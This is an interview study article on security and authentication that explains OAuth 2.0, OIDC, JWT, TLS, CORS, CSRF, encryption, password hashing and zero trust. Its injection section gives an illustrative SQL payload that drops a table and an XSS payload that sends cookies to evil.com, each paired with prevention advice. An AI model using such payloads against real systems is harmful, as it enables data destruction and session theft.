



# Security and Authentication

## Introduction

Security is not a feature you bolt on at the end -- it is a fundamental property that must be woven into every layer of your system architecture. In system design interviews, security questions test whether you understand the difference between authentication and authorization, whether you can reason about threat models, and whether you know the standard protocols that the industry relies on.

This article covers authentication protocols (OAuth 2.0, OIDC, JWT), transport security (TLS), API security patterns, encryption strategies, and architectural principles like zero trust. These topics come up in nearly every senior-level interview, often as follow-up questions after you present an initial design.

> [!NOTE]
> Authentication verifies identity ("who are you?"). Authorization determines permissions ("what are you allowed to do?"). Many candidates conflate these. OAuth 2.0, despite being the most widely used protocol, is technically an authorization framework, not an authentication protocol. OIDC adds authentication on top.

---

## OAuth 2.0

OAuth 2.0 is the industry-standard authorization framework. It allows a user to grant a third-party application limited access to their resources on another service, without sharing their password.

### Core Concepts

- **Resource Owner:** The user who owns the data (e.g., a Google user)
- **Client:** The application requesting access (e.g., a calendar app)
- **Authorization Server:** Issues access tokens after authenticating the user (e.g., Google's OAuth server)
- **Resource Server:** Hosts the protected resources (e.g., Google Calendar API)
- **Access Token:** A credential the client uses to access resources
- **Refresh Token:** A long-lived credential used to obtain new access tokens without re-authentication

### Authorization Code Flow with PKCE

This is the recommended flow for all clients, including mobile apps and single-page applications. PKCE (Proof Key for Code Exchange) adds protection against authorization code interception attacks.



**Step by step:**

1. The client generates a random `code_verifier` string and computes its SHA-256 hash as the `code_challenge`
2. The client redirects the user to the authorization server with the `code_challenge`
3. The user authenticates and grants consent
4. The authorization server redirects back to the client with an authorization code
5. The client sends the authorization code plus the original `code_verifier` to the token endpoint
6. The authorization server hashes the `code_verifier` and verifies it matches the `code_challenge` sent in step 2
7. If valid, the server returns an access token and a refresh token

**Why PKCE matters:** Without PKCE, if an attacker intercepts the authorization code (which is sent via URL redirect and can be captured on mobile or via browser history), they could exchange it for tokens. With PKCE, the attacker also needs the `code_verifier`, which was never transmitted over the redirect.

### Client Credentials Flow

Used for machine-to-machine communication where no user is involved. The client authenticates directly with its own credentials.

1. The client sends its `client_id` and `client_secret` to the authorization server
2. The authorization server validates the credentials and returns an access token
3. The client uses the access token to call the resource server

This flow is used for backend services calling other backend services, cron jobs, and automated processes.

### Implicit Flow (Deprecated)

The implicit flow returned access tokens directly in the URL redirect, without the intermediate authorization code step. This was designed for browser-based apps that couldn't securely store a client secret.

It is now deprecated because:
- Tokens in URLs are visible in browser history, referrer headers, and server logs
- No refresh tokens (the spec forbids them in implicit flow)
- Authorization code flow with PKCE is now secure enough for browser apps

> [!WARNING]
> If an interviewer asks about implicit flow, mention that it is deprecated and explain why. Then describe authorization code flow with PKCE as the replacement. This shows current knowledge.

### Refresh Token Rotation

Access tokens are short-lived (typically 15-60 minutes). Refresh tokens are longer-lived and used to get new access tokens without requiring the user to log in again.

**Refresh token rotation** means that every time a refresh token is used, the server issues a new refresh token and invalidates the old one. If an attacker steals a refresh token and uses it, the legitimate client's next refresh request will fail (because their token was invalidated), alerting the system to the compromise.

---

## OpenID Connect (OIDC)

OIDC is an authentication layer built on top of OAuth 2.0. While OAuth 2.0 tells you what a user is authorized to access, OIDC tells you who the user is.

### What OIDC Adds

- **ID Token:** A JWT containing user identity claims (name, email, subject ID)
- **UserInfo Endpoint:** An API to fetch additional user profile information
- **Standard Scopes:** `openid` (required), `profile`, `email`, `address`, `phone`
- **Discovery:** A `.well-known/openid-configuration` endpoint for auto-configuration

### How It Differs from Plain OAuth

| Aspect | OAuth 2.0 | OIDC |
|--------|----------|------|
| Purpose | Authorization | Authentication + Authorization |
| Token type | Access token | Access token + ID token |
| User identity | Not standardized | Standardized in ID token |
| Scopes | Application-defined | Standardized (openid, profile, email) |
| Discovery | No standard | .well-known endpoint |

> [!TIP]
> In interviews, when discussing user login, say "we'll use OIDC for authentication." If asked to clarify, explain that OIDC gives us a standardized ID token with user identity, while OAuth 2.0 alone only gives us an access token that authorizes API calls but doesn't tell us who the user is.

---

## JSON Web Tokens (JWT)

JWTs are the standard token format used by OAuth 2.0 and OIDC. Understanding their structure and security properties is essential.

### Structure

A JWT consists of three Base64URL-encoded parts separated by dots:

```
header.payload.signature
```

**Header:**
```json
{
  "alg": "RS256",
  "typ": "JWT"
}
```

**Payload (Claims):**
```json
{
  "sub": "user_123",
  "name": "Alice",
  "email": "alice@example.com",
  "iat": 1609459200,
  "exp": 1609462800,
  "iss": "https://auth.example.com",
  "aud": "my-app"
}
```

**Signature:**
```
RS256(base64url(header) + "." + base64url(payload), private_key)
```

### Signing Algorithms

| Algorithm | Type | Key | Use Case |
|-----------|------|-----|----------|
| HS256 | Symmetric | Shared secret | Single service validates its own tokens |
| RS256 | Asymmetric | RSA private/public key pair | Authorization server signs, multiple services verify |
| ES256 | Asymmetric | ECDSA key pair | Same as RS256, smaller keys, faster |

**HS256 vs RS256:**
- HS256 uses one shared secret for both signing and verification. Every service that needs to verify tokens must have the secret, which increases the attack surface.
- RS256 uses a private key (kept secret on the auth server) to sign and a public key (freely distributed) to verify. Services only need the public key, which can't be used to forge tokens.

> [!IMPORTANT]
> In production, always prefer RS256 or ES256 over HS256. The asymmetric approach means your resource servers never have access to the signing key, so a compromised resource server can't forge tokens.

### Token Verification Flow

When a resource server receives a request with a JWT:

1. Decode the header (no cryptographic operation needed, it's just Base64)
2. Fetch the authorization server's public key (usually cached, obtained from a JWKS endpoint)
3. Verify the signature using the public key
4. Check the `exp` claim -- reject if the token is expired
5. Check the `iss` claim -- reject if the issuer is unexpected
6. Check the `aud` claim -- reject if the token wasn't intended for this service
7. Extract the claims and proceed with authorization

### Token Expiration and Refresh

- **Access tokens:** Short-lived (15-60 minutes). Limits the window of damage if stolen.
- **Refresh tokens:** Longer-lived (days to weeks). Stored securely (HTTP-only cookies or secure storage). Used to get new access tokens.
- **ID tokens:** Short-lived. Used only for initial identity verification, not for ongoing API access.

> [!WARNING]
> JWTs are not encrypted by default -- they are only signed. The payload is Base64-encoded, which is trivially decoded. Never put sensitive data (passwords, credit card numbers) in JWT claims. Anyone who intercepts the token can read the payload. Use JWE (JSON Web Encryption) if you need encrypted tokens.

---

## Single Sign-On (SSO)

SSO allows users to authenticate once and access multiple applications without re-entering credentials.

### SAML-Based SSO

SAML (Security Assertion Markup Language) is an older XML-based standard for SSO, common in enterprise environments.

1. User tries to access Application A
2. Application A redirects to the Identity Provider (IdP)
3. User authenticates with the IdP
4. IdP returns a SAML assertion (XML document with identity claims)
5. User accesses Application B
6. Application B redirects to the same IdP
7. IdP recognizes the existing session and returns a SAML assertion without requiring login

### OAuth/OIDC-Based SSO

Modern SSO typically uses OIDC:

1. User tries to access Application A
2. Application A redirects to the OIDC provider
3. User authenticates and receives an ID token + access token
4. User accesses Application B
5. Application B redirects to the same OIDC provider
6. The provider's session cookie is still valid, so the user is authenticated without login

| Factor | SAML | OIDC |
|--------|------|------|
| Format | XML | JSON |
| Token type | SAML Assertion | JWT |
| Transport | HTTP POST, SOAP | HTTP, REST |
| Complexity | Higher | Lower |
| Mobile friendly | Poor | Good |
| Adoption trend | Legacy, enterprise | Modern, growing |

> [!TIP]
> In interviews, if designing a system that needs SSO, default to OIDC unless the requirement specifically mentions enterprise SAML integration. Most modern systems use OIDC, and it is simpler to implement and more mobile-friendly.

---

## TLS/SSL

Transport Layer Security (TLS) encrypts communication between clients and servers. SSL is the predecessor to TLS and is effectively deprecated, but the terms are often used interchangeably.

### The TLS Handshake



**Step by step:**

1. **ClientHello:** Client sends supported cipher suites, TLS version, and a random number
2. **ServerHello:** Server chooses a cipher suite and sends its random number
3. **Certificate:** Server sends its X.509 certificate containing its public key
4. **Certificate verification:** Client checks that the certificate is signed by a trusted Certificate Authority (CA), is not expired, and matches the domain
5. **Key exchange:** Client generates a pre-master secret, encrypts it with the server's public key, and sends it
6. **Session keys:** Both sides derive symmetric session keys from the pre-master secret and the random numbers
7. **Encrypted communication:** All subsequent data is encrypted with the symmetric session keys

### Certificates and Certificate Authorities

- **Certificate Authority (CA):** A trusted entity that signs server certificates (e.g., Let's Encrypt, DigiCert)
- **Certificate chain:** Server cert -> Intermediate CA -> Root CA. The client trusts root CAs built into the OS/browser
- **Certificate pinning:** The client only accepts specific certificates or public keys, rejecting even valid certificates from unexpected CAs. Used in mobile apps for extra security

### Mutual TLS (mTLS)

In standard TLS, only the server presents a certificate. In mTLS, the client also presents a certificate, allowing the server to verify the client's identity.

**Use case:** Service-to-service communication in microservices. Instead of using API keys or tokens between internal services, mTLS provides strong mutual authentication at the transport layer.

**How it works:** The same handshake as standard TLS, but the server also sends a CertificateRequest, and the client responds with its own certificate. Both sides verify each other's certificates.

> [!NOTE]
> mTLS is commonly used in service meshes (Istio, Linkerd) where a sidecar proxy handles certificate management automatically. This means application code doesn't need to manage certificates -- the infrastructure layer handles it transparently.

---

## API Security

### CORS (Cross-Origin Resource Sharing)

CORS is a browser security mechanism that restricts web pages from making requests to a different domain than the one that served the page.

**What it prevents:** A malicious website at evil.com making API calls to bank.com using the user's cookies. Without CORS, the browser would attach the user's bank.com cookies to the request automatically.

**How it works:**
1. Browser sends an OPTIONS preflight request with `Origin: evil.com`
2. Server responds with `Access-Control-Allow-Origin: app.bank.com` (not evil.com)
3. Browser blocks the request because the origin is not allowed

**Key headers:**
- `Access-Control-Allow-Origin`: Which origins can access the resource
- `Access-Control-Allow-Methods`: Which HTTP methods are allowed
- `Access-Control-Allow-Headers`: Which headers can be sent
- `Access-Control-Allow-Credentials`: Whether cookies can be included

> [!WARNING]
> Never set `Access-Control-Allow-Origin: *` on endpoints that use cookies or bearer tokens for authentication. This effectively disables CORS protection. Always whitelist specific trusted origins.

### CSRF (Cross-Site Request Forgery)

CSRF attacks trick a user's browser into making unwanted requests to a site where the user is authenticated.

**Attack scenario:**
1. User is logged into bank.com (has session cookie)
2. User visits evil.com
3. Evil.com has a hidden form that posts to bank.com/transfer
4. The browser automatically attaches the bank.com session cookie
5. The bank processes the transfer as if the user initiated it

**Prevention:**
- **CSRF tokens:** Server generates a unique token per session/request, embeds it in forms. Requests without a valid token are rejected. The attacker's page can't read the token due to same-origin policy.
- **SameSite cookies:** Set `SameSite=Strict` or `SameSite=Lax` on cookies so the browser doesn't send them with cross-origin requests.
- **Check Origin/Referer headers:** Verify that the request originates from your domain.

### Input Validation and Injection Attacks

**SQL Injection:**
An attacker sends malicious SQL through user input:
```
Username: ' OR '1'='1'; DROP TABLE users; --
```

**Prevention:** Use parameterized queries (prepared statements). Never concatenate user input into SQL strings.

**XSS (Cross-Site Scripting):**
An attacker injects malicious JavaScript that executes in other users' browsers:
```
Comment: <script>document.location='https://evil.com/steal?cookie='+document.cookie</script>
```

**Prevention:**
- Encode all output (HTML entity encoding)
- Use Content Security Policy (CSP) headers to restrict script sources
- Sanitize HTML input using a whitelist-based sanitizer
- Use HTTP-only cookies so JavaScript can't access session tokens

---

## Encryption

### Encryption at Rest

Data stored on disk is vulnerable if the storage is compromised (stolen hard drive, cloud storage misconfiguration).

- **AES-256:** The standard symmetric encryption algorithm for data at rest. 256-bit key size provides strong protection.
- **Full-disk encryption:** Encrypts the entire disk (e.g., LUKS, BitLocker)
- **Column-level encryption:** Encrypt specific sensitive columns in a database (SSN, credit card numbers) while leaving non-sensitive data unencrypted for queryability
- **Cloud KMS integration:** AWS KMS, GCP Cloud KMS, Azure Key Vault manage encryption keys and encrypt/decrypt data

### Encryption in Transit

Data moving over the network is vulnerable to interception (man-in-the-middle attacks).

- **TLS:** Encrypts all data between client and server (covered above)
- **Internal traffic:** Use mTLS or encrypted overlay networks between services
- **VPN tunnels:** Encrypt traffic between data centers

### End-to-End Encryption (E2EE)

In E2EE, data is encrypted on the sender's device and only decrypted on the recipient's device. The server that relays the data never has access to the plaintext.

**The Signal Protocol concept:**
1. Each user generates a long-term identity key pair and a set of one-time pre-keys
2. To start a conversation, the sender uses the recipient's public pre-keys to derive a shared secret (X3DH key agreement)
3. Messages are encrypted with the shared secret using a ratcheting mechanism that generates new keys for each message (Double Ratchet)
4. Even if one message key is compromised, past messages remain secure (forward secrecy)

> [!TIP]
> In interviews for messaging systems, always mention E2EE as an option. Explain the tradeoff: E2EE means the server can't search or moderate message content, which impacts features like server-side search and spam detection.

---

## Key Management

Encryption is only as strong as the protection of the keys. A system with AES-256 encryption whose keys are stored in a plaintext config file is effectively unencrypted.

### KMS (Key Management Service)

A dedicated service for managing encryption keys:
- Generates keys using hardware random number generators
- Stores keys in tamper-resistant hardware (HSMs -- Hardware Security Modules)
- Provides encrypt/decrypt APIs so application code never sees raw key material
- Logs all key access for auditing

### DEK/KEK Pattern (Envelope Encryption)

- **DEK (Data Encryption Key):** Encrypts the actual data. Each object/record gets its own DEK.
- **KEK (Key Encryption Key):** Encrypts the DEKs. Stored in KMS, never leaves the HSM.

**How it works:**
1. When encrypting data, generate a new DEK
2. Encrypt the data with the DEK
3. Encrypt the DEK with the KEK (via KMS API call)
4. Store the encrypted data alongside the encrypted DEK
5. Discard the plaintext DEK from memory

**Why this pattern:** You can rotate the KEK without re-encrypting all data. You only need to decrypt each DEK with the old KEK and re-encrypt it with the new KEK. The actual data stays untouched.

### Key Rotation

Keys should be rotated regularly (e.g., every 90 days) to limit the window of exposure if a key is compromised. With envelope encryption, rotation is efficient:

1. Generate a new KEK version in KMS
2. New data uses the new KEK version
3. Old data continues to work because the old KEK version is retained (but marked inactive)
4. Optionally, re-encrypt old DEKs with the new KEK during a background migration

---

## Password Storage

Storing passwords correctly is a fundamental security requirement. Getting it wrong leads to catastrophic breaches.

### Why Not SHA or MD5

- **No salt:** Identical passwords produce identical hashes, enabling rainbow table attacks (precomputed hash lookup tables)
- **Too fast:** SHA-256 can compute billions of hashes per second on a GPU. Attackers can brute-force entire password databases quickly
- **Not designed for passwords:** General-purpose hash functions are designed to be fast. Password hashing needs to be deliberately slow.

### Proper Password Hashing

| Algorithm | Description | Recommended |
|-----------|-------------|-------------|
| bcrypt | Based on Blowfish cipher, configurable cost factor | Yes (widely supported) |
| scrypt | Memory-hard, resistant to ASIC attacks | Yes |
| Argon2 | Winner of Password Hashing Competition (2015), memory + time configurable | Yes (modern best choice) |

**Key properties:**
- **Salting:** Each password gets a unique random salt, stored alongside the hash. Even identical passwords produce different hashes. This defeats rainbow tables and prevents attackers from seeing which users share the same password.
- **Cost factor:** Controls how slow the hashing is. Increase it as hardware gets faster (bcrypt cost 12 in 2020, consider 13-14 in 2025+).
- **Memory hardness (scrypt, Argon2):** Requires significant memory to compute, making GPU/ASIC-based attacks much more expensive.

> [!IMPORTANT]
> Never implement your own password hashing. Use a well-tested library (e.g., bcrypt in any language). Password storage is one area where "not invented here" syndrome causes real security breaches.

---

## Principle of Least Privilege

Every user, process, and service should have only the minimum permissions necessary to perform its function. Nothing more.

**Applications in system design:**

- **Database accounts:** The API server's database user has SELECT/INSERT/UPDATE on application tables only. It cannot DROP tables, access other schemas, or modify permissions.
- **Service accounts:** Each microservice has its own credentials with access only to the resources it needs. The order service can't read user passwords; the user service can't modify orders.
- **IAM policies:** Cloud IAM roles are scoped to specific resources and actions. An EC2 instance running a thumbnail generator gets S3:GetObject and S3:PutObject on one bucket, not full S3 access.
- **Network policies:** Microservices can only communicate with their direct dependencies. The payment service can reach the bank API but not the analytics database.

> [!TIP]
> In interviews, when designing any system, briefly mention that each component should have least-privilege access. It takes 5 seconds to say and demonstrates security awareness.

---

## Zero Trust Architecture

Traditional security follows a "castle and moat" model: everything outside the network perimeter is untrusted, everything inside is trusted. Zero trust eliminates this assumption.

### Core Principles

**"Never trust, always verify":**
- Every request is authenticated and authorized, regardless of network location
- A request from inside the corporate network is treated with the same suspicion as one from the public internet
- Network location is not a factor in access decisions

### BeyondCorp (Google's Implementation)

Google pioneered zero trust with BeyondCorp after the 2009 Aurora attacks:

1. **No VPN:** Employees access internal applications through a public-facing proxy, not a VPN
2. **Device trust:** The device's health, patch level, and enrollment status are verified
3. **User identity:** Strong authentication (MFA) is required for every access
4. **Context-aware access:** Decisions are based on user identity + device trust + request context, not network location
5. **Continuous verification:** Trust is reassessed continuously, not just at login time

### Zero Trust in Microservices

- **mTLS everywhere:** Every service-to-service call is encrypted and authenticated
- **Service identity:** Each service has a cryptographic identity (SPIFFE/SPIRE)
- **Per-request authorization:** Every API call is authorized against a policy engine, not just at the service boundary
- **No implicit trust:** Services in the same Kubernetes namespace do not automatically trust each other

| Traditional | Zero Trust |
|-------------|-----------|
| Trust internal network | Trust nothing by default |
| VPN for remote access | Identity-aware proxy |
| Perimeter firewall is primary defense | Identity and context are primary defense |
| Flat internal network | Micro-segmented network |
| One-time authentication | Continuous verification |

> [!NOTE]
> Zero trust is a journey, not a product you can buy. Most organizations adopt it incrementally: start with strong identity (MFA), add device trust, implement mTLS between services, and gradually remove implicit network-based trust.

---

## Putting Security Layers Together

Security is defense in depth -- no single mechanism is sufficient. A well-secured system layers multiple controls:



**Layer-by-layer:**

| Layer | Mechanism | Threat Mitigated |
|-------|-----------|-----------------|
| Network perimeter | WAF, rate limiting, geo-blocking | DDoS, automated attacks |
| Transport | TLS 1.3, certificate pinning | Eavesdropping, MITM |
| Browser | CORS, CSP, SameSite cookies | XSS, CSRF, clickjacking |
| Identity | OAuth 2.0 + OIDC, MFA | Credential theft, impersonation |
| Authorization | RBAC, policy engine, least privilege | Privilege escalation, unauthorized access |
| Input | Parameterized queries, validation, sanitization | Injection attacks |
| Data | AES-256, envelope encryption, KMS | Data breach, storage compromise |
| Audit | Structured logging, access logs, anomaly detection | Undetected breaches, compliance |

### RBAC vs ABAC

Two major authorization models appear in system design:

**RBAC (Role-Based Access Control):** Users are assigned roles (admin, editor, viewer), and roles have permissions. Simple to implement and reason about.

**ABAC (Attribute-Based Access Control):** Access decisions are based on attributes of the user, the resource, and the context. "Allow access if user.department == resource.department AND time is between 9AM-5PM." More flexible but more complex.

| Factor | RBAC | ABAC |
|--------|------|------|
| Complexity | Simple | Complex |
| Flexibility | Limited | Highly flexible |
| Scalability | Role explosion with many combinations | Scales with policy rules |
| Audit | Easy to audit who has what role | Harder to reason about all possible access paths |
| Best for | Most applications | Multi-tenant, fine-grained access requirements |

### Multi-Factor Authentication (MFA)

MFA requires two or more independent authentication factors:

1. **Something you know:** Password, PIN
2. **Something you have:** Phone (TOTP app), hardware key (YubiKey)
3. **Something you are:** Fingerprint, face recognition

**TOTP (Time-Based One-Time Password):**
- Server and client share a secret key during MFA setup
- Both generate a 6-digit code using HMAC-SHA1(secret, floor(time/30))
- Codes change every 30 seconds
- No network call needed for verification -- just time synchronization

**WebAuthn / FIDO2:**
- Passwordless authentication using public key cryptography
- Private key stays on the device (hardware security key or phone)
- Resistant to phishing because the credential is bound to the origin (domain)
- The strongest form of user authentication available today

> [!TIP]
> In interviews, when discussing authentication, always mention MFA as a security enhancement. For high-value operations (password changes, payment confirmations), suggest step-up authentication -- requiring an additional factor even if the user is already logged in.

---

## Interview Cheat Sheet

| Concept | One-Liner | When to Mention |
|---------|-----------|-----------------|
| OAuth 2.0 | Authorization framework, not authentication | Third-party API access, user login |
| PKCE | Protects authorization code from interception | Mobile apps, SPAs |
| OIDC | Authentication layer on top of OAuth 2.0 | User identity, SSO |
| JWT | Signed token: header.payload.signature | Token format discussion |
| RS256 vs HS256 | Asymmetric (safe) vs symmetric (risky at scale) | Token signing strategy |
| Refresh token rotation | New refresh token each use, detect theft | Session management |
| SSO | Authenticate once, access many apps | Enterprise, multi-app platform |
| TLS handshake | Asymmetric key exchange, then symmetric encryption | Any "how is data secured in transit" question |
| mTLS | Both sides present certificates | Service-to-service auth |
| CORS | Browser blocks cross-origin requests by default | Web API security |
| CSRF | Attacker tricks browser into making authenticated requests | Form-based actions |
| SQL injection | Parameterized queries prevent it | Any database interaction |
| XSS | Encode output, use CSP | Any user-generated content |
| AES-256 | Standard symmetric encryption for data at rest | Data storage security |
| E2EE | Server never sees plaintext | Messaging systems |
| Envelope encryption | DEK encrypts data, KEK encrypts DEK | Key management discussion |
| bcrypt/Argon2 | Deliberately slow password hashing | Password storage |
| Least privilege | Minimum permissions necessary | Any access control discussion |
| Zero trust | Never trust, always verify | Network architecture, microservices |

**Key interview phrases:**
- "We'll use OAuth 2.0 with PKCE for the authorization flow and OIDC for user authentication."
- "Access tokens are short-lived JWTs signed with RS256. Refresh tokens are rotated on each use."
- "All service-to-service communication uses mTLS, managed by the service mesh."
- "We follow zero trust principles -- network location doesn't grant implicit access."
- "Passwords are hashed with Argon2 and a unique salt. We never store or log plaintext passwords."
- "We use envelope encryption: each record has its own DEK, encrypted by a KEK in our KMS."
